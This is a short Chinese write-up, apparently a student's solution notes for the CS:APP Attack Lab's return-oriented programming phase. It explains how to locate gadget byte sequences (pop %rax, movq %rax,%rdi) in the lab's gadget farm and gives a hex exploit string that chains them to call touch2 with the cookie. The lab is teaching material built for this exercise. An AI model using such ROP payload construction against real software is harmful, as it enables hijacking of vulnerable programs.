 第一步是pop，从栈区取cookie到寄存器，第二部是movq，进行参数传递，传到rdi。

![image-20240510214408829](./image_attack_lab(target)/image-20240510214408829.png)



在farm中，先找58-5f，并且要求其后面只有0x90(nop)或者0xc3(ret)。  只有一个58 90 c3满足要求 ，即 pop %rax

然后，肯定是找movq %rax,%rdi 即48 89 c7 c3 以及48 89 c7 90 c3

故答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00  /* gadget1 */
fa 97 b9 59 00 00 00 00   /* cookie=0x59b997fa */
a2 19 40 00 00 00 00 00  /* gadget2 */
ec 17 40 00 00 00 00 00  /* touch2=0x4017ec */
```
